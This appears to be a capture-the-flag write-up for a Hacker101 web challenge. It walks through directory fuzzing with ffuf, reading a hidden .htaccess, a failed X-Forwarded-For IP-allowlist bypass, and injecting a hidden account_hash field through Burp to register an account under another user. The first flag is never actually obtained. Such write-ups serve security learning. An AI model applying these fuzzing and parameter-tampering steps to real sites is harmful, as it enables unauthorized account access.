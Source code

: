# Grayhatcon CTF

## Description
This write up will show how to solve the CTF for "Grayhatcon CTF"

**Difficulty:** Moderate

Hint 1: The registration form might have fields you missed!

## Solution 1st flag
Task opens when going to page: Someone's listed all the usernames and passwords for HackerOne on HackerBay! Hack your way in and delete the listing before someone buys them!</br>

When opening the web applications and go through the source code, I don't immediately see something of interest.</br>
As part of recon, I start to fuzz for files:</br>
`ffuf -u https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/FUZZ -w ~/Documents/bug_bounty/lists/files/common.txt`</br>

With this I found the following files:</br>
```
.htpasswd               [Status: 403, Size: 315, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 315, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 315, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 389, Words: 20, Lines: 10]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 5426, Words: 10, Lines: 4]
login                   [Status: 200, Size: 1726, Words: 430, Lines: 36]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1]
register                [Status: 200, Size: 1665, Words: 357, Lines: 33]
robots.txt              [Status: 200, Size: 38, Words: 3, Lines: 3]
robots                  [Status: 200, Size: 38, Words: 3, Lines: 3]
server-status           [Status: 403, Size: 315, Words: 20, Lines: 10]
```

When visiting `https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/robots.txt` I get the following:</br>
```
User-agent: *
Disallow: s3cr3t-4dm1n/
```
That means there should be a hidden folder.</br>
When visiting `https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n` it returns a 403 Forbidden error.</br>

Now fuzz for files in `s3cr3t-4dm1n` with: `ffuf -u https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/FUZZ -w ~/Documents/bug_bounty/lists/files/common.txt`</br>
In this folder there is also an .htaccess which is a configuration file for an Apache webserver.</br>
Read the data in the .htaccess file in the s3cr3t-4dm1n folder: `curl https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/.htaccess`:</br>
```
Order Deny,Allow
Deny from all
Allow from 8.8.8.8
Allow from 8.8.4.4
```
This means the s3cr3t-4dm1n folder can only be accessed from these IP's. Make the same request, but include in the X-Forwarded-For in the request:</br>
`curl https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/ -H "X-Forwarded-For: 8.8.8.8"`

This should give the flag, but it doesn't. It still gives a response 403 Forbidden.</br>

## Solution 2nd flag
When resetting the password it only requires the username.</br>
When checking the source code, there is a hidden field for account_hash.</br>
Reset the password for user `hunter2` and the account_hash will be: `cf505baebbaf25a0a4c63eb93331eb36`

It is possible to create a normal user or a subuser. The only difference is, that the subuser has a owner_hash.</br>
In Burp, turn on Intercept and give a username and password for the new user.</br>
Click on Register and in Burp add `account_hash=cf505baebbaf25a0a4c63eb93331eb36&` before new_username and send the request.</br>
This will create a new user under hunter2. Clicking a few times on forward.</br>
Now log in with the new user credentials and it will show the flag.</br>






hunter2: cf505baebbaf25a0a4c63eb93331eb36
Testuser3: 1c8dd140c8e516150ff75827ba77017f









